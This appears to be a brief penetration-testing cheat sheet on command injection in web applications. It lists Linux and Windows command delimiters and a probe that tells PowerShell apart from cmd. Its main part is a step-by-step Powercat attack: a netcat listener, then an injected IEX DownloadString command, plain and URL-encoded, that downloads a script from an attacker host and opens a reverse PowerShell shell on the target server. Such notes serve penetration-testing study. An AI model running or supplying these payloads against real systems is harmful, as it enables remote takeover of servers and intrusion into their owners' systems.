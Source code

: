 > When, instead of using pre-defined functions to interact with the system, a web application directly accepts user input then sanitizes it.

(Linux) Command delimiters:
- `;` or `%3B`
- `&&` (specifies two consecutive commands)

(Windows) Command delimiters:
- `;` or `%3B`
- `&`

(Windows) Check if code is being executed in PS or cmd:
- (dir 2>&1 \*\`|echo CMD);&<# rem #>echo PowerShell
- with URL encoding: `(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell`

Powershell webshell using Powercat:
1. Powercat file is located in Kali at `/usr/share/powershellempire/empire/server/data/module_source/management/powercat.ps1`
2. Host a server containing Powercat
3. Prepare netcat listener: `nc -nvlp 4444`
4. Inject command `IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell` to download and run Powercat on the web application server
   With URL encoding: `IEX%20(NewObject%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat .ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive`

Note: Could also inject a PowerShell reverse shell directly.
